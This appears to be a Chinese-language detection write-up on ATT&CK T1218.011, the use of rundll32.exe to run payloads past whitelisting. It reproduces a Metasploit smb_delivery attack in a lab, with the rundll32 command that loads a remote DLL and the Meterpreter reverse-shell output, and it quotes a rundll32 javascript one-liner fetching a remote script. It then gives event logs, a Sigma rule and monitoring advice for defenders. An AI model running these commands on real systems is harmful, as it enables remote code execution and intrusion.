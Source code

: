 # T1218-011-win-使用Rundll32.exe执行payload（白名单）

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/windows/smb/smb_delivery
msf5 exploit(windows/smb/smb_delivery) > set srvhost 192.168.126.146
srvhost => 192.168.126.146
msf5 exploit(windows/smb/smb_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Started service listener on 192.168.126.146:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 靶机执行payload

```cmd
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 反弹shell

```bash
msf5 exploit(windows/smb/smb_delivery) > [*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49381) at 2020-04-17 15:24:05 +0800
msf5 exploit(windows/smb/smb_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         meterpreter x86/windows  12306Br0-PC\12306Br0 @ 12306BR0-PC  192.168.126.146:4444 -> 192.168.126.149:49381 (192.168.126.149)
msf5 exploit(windows/smb/smb_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

sysmon日志记录

```log
EVentID: 1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe  \\192.168.126.146\huwSj\test.dll,0
```

win7安全日志记录

```log
EVentID: 4688
进程信息:
新进程 ID: 0xa30
新进程名: C:\Windows\SysWOW64\rundll32.exe

EVentID: 5158
应用程序信息:
进程 ID: 2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

EVentID: 5156 #Windows 筛选平台已允许连接。
应用程序信息:
进程 ID:2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49381
目标地址: 192.168.126.146
目标端口: 4444
```

## 检测规则/思路

### sigma

```yml
title: Suspicious Call by Ordinal
id: e79a9e79-eb72-4e78-a628-0e7e8f59e89c
description: Detects suspicious calls of DLLs in rundll32.dll exports by ordinal
status: experimental
references:
    - https://techtalk.pcmatic.com/2017/11/30/running-dll-files-malware-analysis/
    - https://github.com/Neo23x0/DLLRunner
    - https://twitter.com/cyb3rops/status/1186631731543236608
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1085
author: Florian Roth
date: 2019/10/22
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine: '*\rundll32.exe *,#*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
    - Windows contol panel elements have been identified as source (mmc)
level: high
```

### 建议

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-011

<https://attack.mitre.org/techniques/T1218/011/>

windows下基于白名单获取shell的方法整理（上）

<http://www.safe6.cn/article/155>
